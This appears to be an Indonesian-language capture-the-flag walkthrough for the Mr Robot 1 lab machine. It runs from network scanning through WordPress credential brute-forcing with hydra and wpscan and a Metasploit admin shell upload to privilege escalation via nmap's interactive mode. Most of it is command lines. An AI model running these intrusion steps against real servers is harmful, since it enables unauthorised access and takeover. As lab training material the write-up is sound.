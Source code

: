# Laporan Serangan Server Mr Robot 1

Ini adalah hasil serangan yang telah dilakukan pada server Mr Robot 1 untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server mr-robot: `ping <ip_server>`

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV -A <ip_server>`

**Port** yang terbuka dari server adalah :
- http (80)
- htts (443)

**Port** yang tertutup dari server adalah :
- ssh (22)

## Access HTTP (Port 80) Server

## Scan Link Yang Ada pada Web
gunakan nmap untuk scan link
- nmap : `nmap -script http-enum <ip_server>`
- access robot : `http://<ip_server>/robots.txt`
- download informasi yang ada
	- file disc : `wget http://<ip_server>/fsocity.dic`
	- flag 1: `wget http://<ip_server>/key-1-of-3.txt`


## WP-Login
- access wp-login : `http://<ip_server>/wp-login.php`
- cek banyak kata pada disc : `wc fsocity.dic`
- maka muncul terdapat **858160** kata dan baris (tiap kata tiap baris)
- karena banyak yang sama, maka cek : `cat fsocity.dic | grep elliot`
- filter terlebih dahulu, biar urut dan membuat kata yang sama menjadi satu saja: 
```
cat fsocity.dic | sort -u > filtered.txt
```
- cek banyak kata pada txt : `wc filtered.txt`
- muncul **11451** kata dan baris (jauh lebih sedikit dari file aslinya)
- cari username
	- hydra
	```
	hydra -L filtered.txt -p hackeranang <ip_server> http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
	```
	- tunggu (lebih kurang 7 menit)
	- username : `elliot`, `ELLIOT`, `Elliot`
- cari password
	- wpscan
	```
	wpscan --url http://<ip_server>/wp-login.php -U 'Elliot' -P filtered.txt
	```
	- tunggu (lebih kurang 7 menit)
	password : `ER28-0652`


## Exploit Login
untuk masalah exploit kita gunakan tool metasploit
- buka metasploit
```
msfconsole
```
- cari exploit : 
```
search wordpress shell
```
- pilih : **exploit/unix/webapp/wp_admin_shell_upload**
```
use exploit/unix/webapp/wp_admin_shell_upload
```
- setting exploit
	- setting lengkap
	```
	show advanced options
	```
	- username dan password
	```
	set USERNAME Elliot
	```
	```
	set PASSWORD ER28-0652
	```
	- setting ip
	```
	set RHOSTS <ip_server>
	```
	- setting cek wordpress
	```
	set WPCHECK false
	```
- jalankan exploit
```
exploit
```
- dan tunggu hingga `meterpreter` terbuka




## Shell dan Terminal
setelah masuk meterpreter gunakan perintah
- masuk shell : 
```
shell
```
- ubah shell dengan mode terminal
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```
export TERM=xterm
```
- buka password : `cat password.raw-md5`
- hash dengan link : https://crackstation.net/
- masuk user robot : 
	- `su robot`
	- password : `abcdefghijklmnopqrstuvwxyz`
	- cek user : `whoami`
- flag 2 : `cat key-2-of-3.txt`
- access user root
	- `nmap --interactive`
	- `!sudo /bin/bash`
	- password : `abcdefghijklmnopqrstuvwxyz`
	- cek user : `!whoami`
	- `!sh`
	- masuk folder root : `cd /root`
	- flag 3 : `cat key-3-of-3.txt`